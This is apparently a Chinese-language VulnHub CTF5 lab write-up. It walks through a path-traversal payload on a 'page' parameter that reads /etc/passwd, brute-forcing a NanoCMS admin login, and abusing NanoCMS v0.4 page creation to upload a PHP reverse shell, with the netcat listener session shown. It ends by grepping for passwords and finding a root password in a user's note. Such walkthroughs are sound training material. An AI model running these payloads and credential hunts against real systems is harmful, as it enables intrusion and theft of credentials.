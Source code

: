 以及squirrelmail下，也有登录框

<img width="1919" height="1013" alt="Image" src="https://github.com/user-attachments/assets/31ee8dcd-a880-43f6-a8b5-c03b63692a76" />

然后又在主页下翻，切换页面的时候上面有一个page参数，试一下文件包含，`../../../../../etc/passwd%00` 可以利用到漏洞

<img width="1919" height="914" alt="Image" src="https://github.com/user-attachments/assets/dec0f918-3e09-4d15-b220-b32888db693d" />

到管理员登录框，先爆破一下这个

<img width="1908" height="1072" alt="Image" src="https://github.com/user-attachments/assets/b548fc38-216d-468d-abe1-1c65ad1b16f9" />

NanoCMS爆破出了密码，登录进去了
搜索到一个此版本的RCE漏洞，看看能否利用： 
NanoCMS v0.4 在新增页面功能中，允许认证用户上传任意内容，并默认以 .php 后缀保存页面，而未进行任何代码执行防护或内容过滤。

<img width="1919" height="1040" alt="Image" src="https://github.com/user-attachments/assets/fb985246-a330-430d-b315-401a7aee605e" />

成功利用

<img width="1919" height="913" alt="Image" src="https://github.com/user-attachments/assets/1669323b-18be-4a90-86bd-83ca9e15e55e" />

反弹个shell，好像禁用了/dev/tcp，直接写一个php-reverse-shell 上去
```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/CTF5]
└─$ sudo nc -lvnp 4444
[sudo] kali 的密码：
listening on [any] 4444 ...
connect to [192.168.218.148] from (UNKNOWN) [192.168.218.198] 60733
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
 08:00:43 up  3:17,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-3.2$ uname -a
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
sh-3.2$ 
```

# 提权
翻找了一会没找到什么横向或纵向的提权
开始尝试使用内核漏洞，经过很久的尝试，都没成功，poc太老了，我也没有修改poc的能力，看一眼wp，发现有正常的路子走。

`grep -rn "password" . 2>/dev/null`

./patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note 文件中有 **root password** 字样
<img width="1601" height="889" alt="Image" src="https://github.com/user-attachments/assets/e71e6f2e-a8e5-4102-860c-842de06df1c8" />

```
head 481bca0d-7206-45dd-a459-a72ea1131329.note 
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
  <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
  <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
```